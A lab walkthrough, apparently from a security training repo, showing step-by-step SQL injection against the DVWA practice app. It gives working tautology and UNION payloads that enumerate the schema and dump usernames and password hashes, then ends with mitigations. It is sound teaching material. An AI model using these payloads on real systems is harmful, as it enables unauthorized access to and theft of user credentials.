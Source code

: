 ## 🔍 Lab 2: SQL Injection – Lateral Movement via Leaky API

### 💼 Scenario
A helpdesk system fetches user profiles using a numeric ID but exposes raw DB responses without sanitation.

### 🎯 Objective
There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi. Use SQL Injection to enumerate DB tables, dump data, and escalate.

### 🧪 Steps
1. Navigate to DVWA → **SQL Injection** module.

2. Based on the `objective`, we know the database holds five users, each identified by a numeric ID. Entering a user ID returns their first and last names.

3. Click the **View Source** button to inspect the backend SQL query:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```
The SQL query to return `$first` and `$last` fields.

4. To explore beyond this query, manipulate the `$id` parameter by submitting:

```sql
%' or '0'='0
```
This yields the following unsanitized query:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' or '0'='0';
```

- `%` is a wildcard
- `'0'='0'` always evaluates true
- The quotes align correctly, ensuring valid execution

5. Now let’s try a more advanced SQL injection using `UNION` to combine results from another query. In particular, the `UNION` keyword in SQL combined with a suitable `SELECT` query will expose the underlying database. We call this approach a `SQL injection UNION attack`.

6. MySQL stores metadata in the `information_schema.columns` table, which contains names of all tables and their columns.

7. Use the following input to enumerate table and column names:

```sql
%' UNION SELECT table_name, column_name FROM information_schema.columns #
```

Resulting query:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' 
UNION SELECT table_name, column_name FROM information_schema.columns #';
```
- `#` is a comment character that discards the rest of the original query
- We also want to ensure we assign values to the two variables `$first` and `$last` by returning two columns, not one.

8. After identifying the correct table (likely `users`) and columns (`user`, `password`), modify your input to extract credentials:

```sql
%' UNION SELECT user, password FROM users #
```

Which becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' UNION SELECT user, password FROM users #';
```
You will now see a list of usernames alongside hashed passwords.

9. We’ve found password hashes instead of plain-text passwords. Cracking passwords is outside the scope of this lab.


### 🧠 Real-World Context
APIs that expose DB queries directly are common in legacy web services. SQLi is still one of the top OWASP vulnerabilities.

### 🛡️ Mitigation
- Always use parameterized queries or ORMs.
- Disable verbose error messages in production.
- Employ WAFs (Web Application Firewall) to block suspicious queries.

